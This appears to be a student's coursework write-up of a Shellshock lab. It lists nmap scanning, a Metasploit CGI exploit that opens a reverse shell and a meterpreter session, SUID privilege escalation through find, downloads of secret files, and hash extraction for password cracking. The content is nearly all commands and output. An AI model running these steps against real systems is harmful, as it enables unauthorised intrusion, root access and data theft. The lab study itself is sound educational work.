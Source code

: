# Shellshock
Documentation for exploitation of Shellshock bash vulnerability for graduate coursework

## Scanning
nmap scan subnets
nmap 10.0.2.4

## Attack CGI Program
msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set rhost 10.0.2.4 
set targeturi /cgi-bin/shellshock.cgi
set payload linux/x86/shell/reverse_tcp
check
exploit

## Privilege Escalation
/bin/bash -i
ls -la (eg: find / -perm -u=s -type f 2>/dev/null)
find /usr/bin/ -name find -exec /bin/bash -ip \;
task4 rheavican3

Here is your task4 hash:
2fba992ab63ad4f5a260220a1ad2e75b81116ab4630700b71380eadc275edc72

## Password cracking
To begin, start a Meterpreter shell (using a meterpreter shell payload) through the Metasploit shellshock module in Task 3

msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set rhost 10.0.2.4 
set targeturi /cgi-bin/shellshock.cgi
set payload linux/x86/meterpreter/reverse_tcp 
cd \home\shellshock_server\secret_files\
download task51.zip
download task52.pyc.gpg

/usr/sbin/ as path variable
You should use zip2john and gpg2john

zip2john -c /home/kali/task51.zip                                      
Outputting hashes that are 'checksum ONLY' hashes
ver 2.0 efh 5455 efh 7875 task51.zip/task51.pyc PKZIP Encr: TS_chk, cmplen=456, decmplen=682, crc=5330F289 ts=1D79 cs=1d79 type=8
task51.zip/task51.pyc:$pkzip$1*1*1*0*8*24*1d79*97ec3d5876142dbdcdd3d47ccce26cba43740e80a661efbc5d4b9c734d45cc3b05fc4570*$/pkzip$:task51.pyc:task51.zip::/home/kali/task51.zip

## References
- Metasploit: https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/
- Spawn an interactive shell: https://rcenetsec.com/shell-spawning/
- Privilege escalation: https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/
